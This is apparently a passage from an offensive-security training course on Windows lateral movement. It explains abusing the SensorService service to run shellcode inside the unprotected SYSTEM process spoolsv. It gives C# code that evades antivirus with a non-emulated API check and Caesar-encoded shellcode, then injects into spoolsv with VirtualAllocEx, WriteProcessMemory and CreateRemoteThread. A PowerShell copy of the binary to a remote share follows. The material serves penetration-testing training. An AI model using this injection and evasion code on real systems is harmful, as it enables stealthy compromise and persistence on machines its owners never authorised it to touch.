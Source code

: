 If our executable performs process injection into a different SYSTEM process that is not protected by PPL, our shell will not die when the service manager terminates the associated process.

On Windows Server 2019 and newer editions of Windows 10, a fair number of SYSTEM processes execute with PPL enabled by default, meaning there are not many viable targets. One service process that is not protected and we _can_ inject into is spoolsv.

To recap, our lateral movement technique will perform three actions. First, the properties of SensorService are modified and the service is started. This will trigger a copy operation of the shellcode into the spoolsv process. Finally, the shellcode executes inside spoolsv.

To do this, we will first create a C# application that performs process injection into spoolsv. We'll combine the AV bypass technique that leveraged non-emulated APIs and a Caesar cipher with the process injection technique we developed previously.

The combined code, without the associated DllImport statements, is shown in Listing 43.

```
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
if (mem == null)
{
    return;
}

byte[] buf = new byte[691] { 0x01, 0x4d, 0x88, ... };

for (int i = 0; i < buf.Length; i++)
{
    buf[i] = (byte)(((uint)buf[i] - 5) & 0xFF);
}

int size = buf.Length;

Process[] expProc = Process.GetProcessesByName("spoolsv");
int pid = expProc[0].Id;

IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);

IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);

IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

> Listing 43 - Code to evade AV and perform process injection

We will name this application "Inject". Next, we'll compile it, upload it to web01, and subsequently use our CIFS access to copy it to file01.

The copy operation is shown in Listing 44.

```
PS C:\Windows\system32> copy C:\inetpub\wwwroot\upload\inject.exe \\file01\c$
copy C:\inetpub\wwwroot\upload\inject.exe \\file01\c$

PS C:\Windows\system32> ls \\file01\c$
ls \\file01\c$

    Directory: \\file01\c$

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                             
d-----        6/24/2020   1:07 AM                PerfLogs                                                         
```
